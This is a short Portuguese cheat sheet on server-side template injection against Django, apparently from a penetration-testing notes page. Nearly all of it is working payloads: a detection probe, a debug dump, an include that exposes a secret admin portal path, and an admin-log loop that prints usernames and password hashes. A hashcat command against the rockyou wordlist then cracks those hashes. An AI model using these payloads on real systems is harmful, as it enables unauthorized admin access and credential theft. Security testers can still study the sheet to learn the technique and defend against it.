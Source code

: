 # Injeção de Modelo no Servidor

**Detecção:** `{% if 'ahsan' == 'ahsan' %} a {% endif %}`

**Depuração:** `{% debug %}`

**Divulgando Portal do Admin:** `{% include 'admin/base.html' %}` <mark style="color:green;">= /secret-admin-portal</mark>



**Divulgando Credenciais:**

<pre><code>{% load log %} {% get_admin_log 10 <a data-footnote-ref href="#user-content-fn-1">as</a> log %} {% for e in log %}
{{e.user.get username}} : {{e.user.password}} {% endfor %}
</code></pre>



**Credenciais com hash do Django Descartadas**



**Descriptografado usando Hashcat:**&#x20;

`hashcat -m 10000 hashed_passwords rockyou. txt` <mark style="color:green;">= Django Admin Panel Pwn</mark>

[^1]: 

